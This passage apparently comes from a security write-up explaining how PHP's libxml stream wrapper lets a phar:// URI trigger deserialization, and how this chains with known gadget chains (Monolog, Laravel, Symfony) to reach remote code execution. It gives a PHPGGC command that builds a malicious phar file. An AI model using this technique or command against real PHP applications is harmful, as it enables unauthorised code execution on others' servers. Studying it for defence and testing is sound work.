 ```c
	}
    
    
    ...
```

This function opens the target URI via:

```c
static void *php_libxml_streams_IO_open_read_wrapper(const char *filename)
{
	return php_libxml_streams_IO_open_wrapper(filename, "rb", 1);
}
```

And it calls php_libxml_streams_IO_open_wrapper. Now the ret_val use php_stream_open_wrapper_ex to extract the wrapper and if we pass phar:// to it deserialization happens

```c
static void *php_libxml_streams_IO_open_wrapper(const char *filename, const char *mode, const int read_only)
{
	php_stream_statbuf ssbuf;
	php_stream_context *context = NULL;
	php_stream_wrapper *wrapper = NULL;
	char *resolved_path;
    
    
        ...
        
        ret_val = php_stream_open_wrapper_ex(path_to_open, (char *)mode, REPORT_ERRORS, NULL, context); 
        
        ...
        
        return ret_val;
}
```


## Phar deserialization and gadget chains

This bug still works in PHP 7.4 so can be combined with vulnerabilities in older libraries like Monolog, Laravel, Symfony, etc. Those libraries often contain gadget chains that can be abused for RCE via deserialization.You can find a collection of known gadget chains here: https://github.com/ambionics/phpggc

How to Exploit Phar Deserialization with PHPGGC ? 

### Using the CLI tool 

* First, clone the phpggc repository:
* Next, generate a Phar file with a gadget chain using this command
`phpggc -f Monolog/RCE1 exec 'touch pwned' -p phar -o exploit.phar`
* Now you can work with it
